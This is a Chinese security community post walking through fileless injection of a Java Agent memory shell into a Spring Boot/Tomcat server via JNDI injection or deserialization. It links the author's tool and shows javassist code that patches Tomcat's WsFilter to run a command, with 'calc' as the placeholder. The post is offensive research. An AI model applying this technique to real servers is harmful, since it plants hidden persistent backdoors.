 

# 无文件落地注入 Agent 内存马实操 - 先知社区

无文件落地注入 Agent 内存马实操

- - -

## 前言

上个月看了[rebeyond](https://xz.aliyun.com/u/8697)、[游望之](https://xz.aliyun.com/u/40732)、[Xiaopan233](https://tttang.com/user/Xiaopan233)师傅介绍**无文件落地注入 Agent 内存马技术**的文章，就想着实操复现一下，没想到遇到了很多问题，花了不少时间才解决，于是准备写篇实操记录，帮各位避坑

此项技术适用于**具有动态代码上下文执行能力**情景下的**通用内存马注入**（仅仅 Runtime.getRuntime().exec() 是不行的，必须要有执行**多条代码**的能力）

**提示：**阅读本文需要你对 JNDI 注入、反序列化漏洞有基本认识，当然了解 Agent 内存马更是必须的；如果对这项技术尚未理解，推荐去那几位师傅的博客看看

接下来我将使用自己写的小工具进行模拟攻击注入，在这个过程中谈几个**实战中的问题**，如果读者没有实践过，不妨跟着本文动手操作下

**项目地址**：[https://github.com/whocansee/FilelessAgentMemShell](https://github.com/whocansee/FilelessAgentMemShell) （包括测试所需的简易漏洞环境以及新类字节码）

## 开始

测试环境：Windows 10、JDK8u66、SpringBoot 2（暴露任意反序列化和 JNDI 接口）

以使用 JNDI 注入漏洞向**JDK 低版本、Windows 目标**打入 Agent 内存马为例

### 生成用于注入 Agent 内存马的类文件

首先选用常见的**`org.apache.tomcat.websocket.server.WsFilter`**作为宿主类

javassist 修改其字节码并输出新的 class 文件（在其方法体前面添加了计算器）

```bash
ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("org.apache.tomcat.websocket.server.WsFilter");
        CtMethod m = ctClass.getDeclaredMethod("doFilter");
        m.insertBefore("Runtime.getRuntime().exec(\"calc\");");
        ctClass.writeFile();
        ctClass.detach();
```

在此目录找到生成的新 class 文件  
[![](assets/1701678277-49e505ef7340a5cbfcde55ccf4ff5d36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130224320-ce545114-8f8e-1.png)

和工具放到同一目录，使用工具生成最终要让目标加载的类文件（用于将目标类的**旧字节码替换为新字节码**）
